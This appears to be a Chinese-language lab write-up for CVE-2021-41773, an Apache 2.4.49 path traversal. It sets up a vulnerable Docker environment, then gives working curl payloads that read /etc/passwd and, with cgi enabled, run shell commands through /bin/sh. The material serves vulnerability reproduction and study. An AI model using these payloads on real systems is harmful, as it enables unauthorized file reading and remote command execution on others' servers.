


# Apache HTTP Server 2.4.49 路径穿越漏洞（CVE-2021-41773）

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

- 版本等于2.4.49
- 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的Apache HTTPd 2.4.49版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞利用

使用如下CURL命令来发送Payload（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

可见，成功读取到`/etc/passwd`：



在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```


